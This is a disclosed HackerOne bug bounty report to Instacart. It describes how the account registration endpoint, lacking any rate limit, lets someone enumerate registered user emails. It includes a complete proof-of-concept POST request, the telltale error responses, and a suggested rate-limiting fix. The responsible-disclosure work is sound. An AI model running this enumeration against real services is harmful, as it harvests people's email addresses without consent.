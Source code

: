 # Get all instacart emails - missing rate limit on /accounts/register

## Report Details
- **Report ID**: 275186
- **URL**: https://hackerone.com/reports/275186
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-10-06T16:27:34.194Z
- **Disclosed**: 2017-12-01T23:52:22.751Z

## Reporter
- **Username**: 003random
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: instacart

## Vulnerability Information
Hey Instacart team,

When signing up for an account, you enter your email. When this email is already in use, the server responds with "{"errors":{"email":["has already been taken"]}}"
This in not a problem, but the fact that you could send this request unlimited times is the issue.

This way we can easily get a list of all users emails signed up at Instacart.

###PoC
Send this POST request to "https://www.instacart.com/accounts/register"

>POST /accounts/register HTTP/1.1
Host: www.instacart.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
X-CSRF-Token: /KCdKtn9A4Oaf7/MAlc/ixhz4h4IPuxEWLRBcAg/heMpt3kcLiMYDZ9ZUnLcHtA5SR+fDrJVorqIuO0h9zr/uQ==
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: https://www.instacart.com/
Content-Length: 316
Cookie: build_sha=31340a4bf316c78fff58fe0f5ed3b92ad2c591dc; ahoy_visitor=8ca5f95a-239e-4853-bd06-3f4461c67ae1; ahoy_visit=5493572a-38ab-4bea-ab80-9c005fa2e94b; _instacart_session=__Your_Session_Here__; ajs_user_id=null; ajs_group_id=null; ajs_anonymous_id=%22c00a35c4-3997-4dc9-841c-85655de95dea%22
DNT: 1
Connection: close

>user%5Bsource%5D=web&user%5Bremember_me%5D=1&user%5Bzip_code%5D=22222&user%5Bfirst_name%5D=test&user%5Blast_name%5D=test&user%5Bemail%5D=__The_Email_Here__&user%5Bpassword%5D=&read_terms=true&authenticity_token=%2FKCdKtn9A4Oaf7%2FMAlc%2Fixhz4h4IPuxEWLRBcAg%2FheMpt3kcLiMYDZ9ZUnLcHtA5SR%2BfDrJVorqIuO0h9zr%2FuQ%3D%3D

The password field is left empty on purpose, so that when the email is not in use, no account will be made.

If the email exists, this will be the response: "{"errors":{"email":["has already been taken"],"password":["can't be blank"]}}"

When the email doesn't exist in the database, then this will be returned: "{"errors":{"password":["can't be blank"]}}"

###Fix

to fix this issue, you could implement an timeout after a number of requests in a period of time.
just like it is implemented here: https://www.instacart.com/accounts/password
this returns "429 Too Many Requests" when making multiple requests in a short period of time.

If you have any questions, feel free to ask them ;)
@003random

## Attachments
No attachments
